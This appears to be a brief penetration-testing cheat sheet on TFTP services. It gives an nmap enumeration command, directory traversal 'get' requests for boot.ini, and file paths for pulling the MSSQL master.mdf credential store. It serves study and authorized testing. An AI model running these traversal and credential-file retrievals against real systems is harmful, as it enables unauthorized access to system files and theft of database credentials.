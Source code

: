 # TFTP 
------

nmap:
```bash
nmap -sU -p69 --script tftp-enum [target]
```

```bash
tftp 10.11.1.111 69
```

- We can download files from tftp but not list directories.
- Download files using full path.

directory traversal:
```bash
tftp> get ..\..\..\..\..\boot.ini
tftp> get \boot.ini
```

Getting master.mdf file (MSSQL crendentials store file)
```txt
\Program Files\SQL Server\MSSQL14.SQLEXPRESS\MSSQL\DATA\master.mdf
```

```txt
\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf
```